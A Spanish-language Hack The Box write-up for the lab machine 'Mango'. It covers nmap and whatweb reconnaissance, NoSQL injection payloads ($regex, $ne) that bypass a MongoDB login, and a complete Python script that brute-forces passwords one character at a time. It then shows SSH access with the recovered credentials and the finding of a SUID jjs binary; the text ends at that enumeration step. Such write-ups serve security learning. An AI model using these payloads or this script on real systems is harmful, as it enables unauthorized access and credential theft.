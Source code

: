 ```yaml
---
layout: post
title:  "Maquina Retirada Mango de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada MANGO
tags: HTB, Bypass, NoSQLI, Mongo-db, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Mango ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.162       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos un dominio 

Usamos la herramienta whatweb
```bash
# whatweb 10.10.10.162                                                                                                                                                                                        1 ⚙
http://10.10.10.162 [403 Forbidden] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], Title[403 Forbidden]
```
Nos arroja un Forbidden y si probamos con el dominio encontrado?
```bash
# whatweb staging-order.mango.htb                                                                                                                                                                             
http://staging-order.mango.htb/ [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], PasswordField[password], Script, Title[Mango | Sweet & Juicy]
```
Nos arroja mas informacion.

Vemos que Tenemos un Login, probamos las tipicas injecciones de SQLI y vemos que no nos respode a ninguna.. 
Buscamos informacion sobre las bases de datos `Mongo-db`
Vemos que justo para las bases de datos `Mongo-db` hay unas injecciones llamadas `NoSqli`.

Injeccion No Sqli
```bash
username[$regex]=^a.*$&password[$ne]=lol&login=login    --- codigo 302
```
Averiguamos la longitud de la contraseña para el usuario `admin`: `username=admin&password[$regex]=^.{12}$&login=login   ----302`

Averiguarmos la longitud de la contraseña para el usuario `mango`: `pusername=mango&password[$regex]=^.{16}$&login=login ------- 302`

Conseguimos sacar dos usuarios validos: `admin , mango`

Nos montamos un `exploit` en python3 para sacar las contraseñas de los dos usuarios enumerados de la misma forma.
```python3
#!/usr/bin/python3

import requests
import re
import signal
import sys
import pdb
import string
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
s = string.ascii_letters + string.digits + string.punctuation 

def makeRequest():

    password = ""

    for i in range(0, 20):

        for character in s:

            p1.status("Probando el caracter %s" % character)

            post_data = {
                'username': 'admin',
                'password[$regex]': '^%s.*$' % (re.escape(password + character)),
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Password")
    time.sleep(2)

    makeRequest()
```
Lanzamos este exploit para sacar las passwords
Para el user `mango`:
```bash
# python3 Mango_NoSQLI.py                                                                                                                                                                                     
[↙] Fuerza bruta: Probando el caracter ~
[◒] Password: h3mXK8RhU~f{]f5H
```
Para el user `admin`:
```bash
# python3 Mango_NoSQLI.py                                                                                                                                                       

[..\.....] Fuerza bruta: Probando el caracter ~
[◥] Password: t9KcS3>!0B#2
```

# Accediendo por el SSH con las Credenciales Obtenidas
Teniendo las credenciales de la base de datos podriamos probar a conectarnos por el servicio `ssh` con las `passwords` encontradas.
```bash
mango@mango:~$ whoami
mango

mango@mango:/home$ ls
admin  mango

mango@mango:/home/admin$ ls
user.txt

```
ernumeramos el sistema:
```bash
mango@mango:/$ find / -group admin -type f 2>/dev/null
/var/crash/_usr_bin_pkttyagent.4000000000.crash
/home/admin/.bash_logout
/home/admin/.profile
/home/admin/.bashrc
/home/admin/user.txt
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root  admin  10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```


